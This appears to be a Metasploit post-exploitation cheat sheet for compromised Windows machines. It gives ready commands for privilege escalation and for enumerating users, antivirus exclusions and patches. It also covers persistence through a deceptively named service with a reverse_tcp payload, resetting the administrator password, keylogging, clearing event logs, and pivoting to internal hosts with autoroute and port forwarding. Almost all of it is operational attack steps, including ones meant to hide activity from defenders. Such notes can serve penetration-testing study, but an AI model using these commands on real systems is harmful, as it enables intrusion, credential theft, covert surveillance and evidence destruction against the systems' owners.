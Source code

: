 
Using the "getsystem" command to try and escalate privileges
```
getsystem
```
To get a list of mount or drives attached to the system
```
show_mount
```
To change the architecture of the meterpreter payload
```
search migrate
use post/windows/manage/archmigrate
```
To use the windows privileges module
```
use post/windows/gather/win_privs
```
To check what users are currently logged in and their SID's
```
use post/windows/gather/enum_logged_on_users 
```
To check if the target machine is a virtual machine
```
use post/windows/gather/checkvm
```
Checking the installed programs on the target system
```
use post/windows/gather/enum_applications
```
To check antivirus installed on the target's machine and to check the folders not being scanned by the antivirus program
```
use post/windows/gather/enum_av_excluded
```
To enumerate the computers part of the domain
```
use post/windows/gather/enum_computers
```
To check for installed patches which can help with privilege escalation
```
use post/windows/gather/enum_patches
```
To enumerate for shares
```
use post/windows/gather/enum_shares
```
To enable rdp on the target's device
```
use post/windows/manage/enable_rdp
```




<h4>Establishing Persistence on windows</h4>

Establishing persistence
```
search platform:windows persistence
```
Choosing one
```
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set service_name (this should be something deceitful)
set SESSION
```
After killing all the sessions, to enable persistence
```
use multi/handler
```
Set payload that was set for the persistence
```
set payload windows/meterpreter/reverse_tcp
```
Set LPORT to what you set it as when you were doing the persistence
```
set LHOST
set LPORT
```



<h4>Enabling RDP</h4>

To enable rdp, background the session
```
use post/windows/manage/enable_rdp
set session
```
Enabling rdp requires username and password, since we have a meterpreter shell as Administrator we can go ahead and change the user's credentials or should i say the administator's password
To change the administrator's password
```
net user administrator hacker_123321
```


<h4>Windows Keylogging</h4>

This is using the "keystroke" command, after getting a meterpreter session

To start
```
keyscan_start
```
To dump the captured key strokes
```
keyscan_dump
```
To stop the sniffer
```
keyscan_stop
```




<h4>Clearing windows event logs</h4>

To clear
```
clearev
```


<h4>Pivoting</h4>

Here, you have 2 ips, victim_1 and victim_2. victim_1 can be scanned using metasploit but victim_2 can't which means it can only be accessed internally. 

Getting a meterpreter shell on the victim_1 IP

TO access the second IP, we can add a route, since we know  that victim 2 Ip is part of the same subnet victim 1 is in 
On your metepreter shell, the ip to route will be the victim 1 ip
```
run autoroute -s 10.10.10.0/20
```
This will add a route to the network
You can rename the previous meterpreter session
```
sessions -n victim-1 -i 1
```

>Just because we added a route doesn't mean we can use external tools like nmap. We can make use of the nmap module in metasploit

```
use auxiliary/scanner/portscan/tcp
set RHOSTS victim_2
```
Portforwarding from victim_2 to victim_1
Going over to the opened meterpreter session
```
portfwd add -l 1234 -p 80 -r $victim2_ip

-l--> port you want to forward to
-p--> port you want to forward
-r--> ip address of the port you want to forward
```
So, you can access port 80 of victim 2 on port 1234 of your local host

To get a meterpreter shell
```
set payload windows/meterpreter/bind_tcp
```
